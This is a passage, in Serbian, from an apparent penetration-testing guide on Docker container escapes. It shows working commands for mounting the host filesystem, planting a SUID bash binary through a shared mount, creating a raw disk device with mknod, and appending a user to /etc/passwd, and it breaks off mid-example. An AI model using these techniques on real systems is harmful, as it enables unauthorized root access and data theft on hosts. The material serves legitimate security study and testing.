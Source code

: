 Međutim, možete pronaći **druge osetljive datoteke** za proveru na ovoj stranici:

{% content-ref url="sensitive-mounts.md" %}
[sensitive-mounts.md](sensitive-mounts.md)
{% endcontent-ref %}

### Proizvoljne montaže

U nekoliko prilika ćete primetiti da je **kontejner montirao neki volumen sa hosta**. Ako ovaj volumen nije pravilno konfigurisan, možda ćete moći da **pristupite/izmenite osetljive podatke**: Čitanje tajni, menjanje ssh authorized\_keys...

```bash
docker run --rm -it -v /:/host ubuntu bash
```

### Eskalacija privilegija sa 2 školjke i host montažom

Ako imate pristup kao **root unutar kontejnera** koji ima neki folder sa hosta montiran i uspeli ste kao neprivilegovani korisnik da pobegnete na host i imate pristup za čitanje preko montiranog foldera.\
Možete kreirati **bash suid fajl** u **montiranom folderu** unutar **kontejnera** i **izvršiti ga sa hosta** radi eskalacije privilegija.

```bash
cp /bin/bash . #From non priv inside mounted folder
# You need to copy it from the host as the bash binaries might be diferent in the host and in the container
chown root:root bash #From container as root inside mounted folder
chmod 4777 bash #From container as root inside mounted folder
bash -p #From non priv inside mounted folder
```

### Eskalacija privilegija sa 2 ljuske

Ako imate pristup kao **root unutar kontejnera** i uspeli ste da **pobegnete kao korisnik bez privilegija na hostu**, možete zloupotrebiti obe ljuske da biste **eskaliirali privilegije unutar hosta** ako imate mogućnost MKNOD unutar kontejnera (to je podrazumevano) kao što je [**objašnjeno u ovom postu**](https://labs.withsecure.com/blog/abusing-the-access-to-mount-namespaces-through-procpidroot/).\
Sa takvom mogućnošću, korisnik root unutar kontejnera može **kreirati blok uređajne datoteke**. Uređajne datoteke su posebne datoteke koje se koriste za **pristupanje osnovnom hardveru i jezgrovim modulima**. Na primer, blok uređajna datoteka /dev/sda omogućava pristup **čitanju sirovih podataka na sistemu diska**.

Docker štiti od zloupotrebe blok uređajnih datoteka unutar kontejnera primenom cgroup politike koja **blokira operacije čitanja/pisanja blok uređajnih datoteka**. Ipak, ako se blok uređajna datoteka **kreira unutar kontejnera**, postaje dostupna spoljašnjem svetu putem direktorijuma **/proc/PID/root/**. Za ovaj pristup je potrebno da **vlasnik procesa bude isti** i unutar i izvan kontejnera.

Primer **eksploatacije** iz ovog [**izveštaja**](https://radboudinstituteof.pwning.nl/posts/htbunictfquals2021/goodgames/):

```bash
# On the container as root
cd /
# Crate device
mknod sda b 8 0
# Give access to it
chmod 777 sda

# Create the nonepriv user of the host inside the container
## In this case it's called augustus (like the user from the host)
echo "augustus:x:1000:1000:augustus,,,:/home/augustus:/bin/bash" >> /etc/passwd
# Get a shell as augustus inside the container
su augustus
su: Authentication failure
(Ignored)
```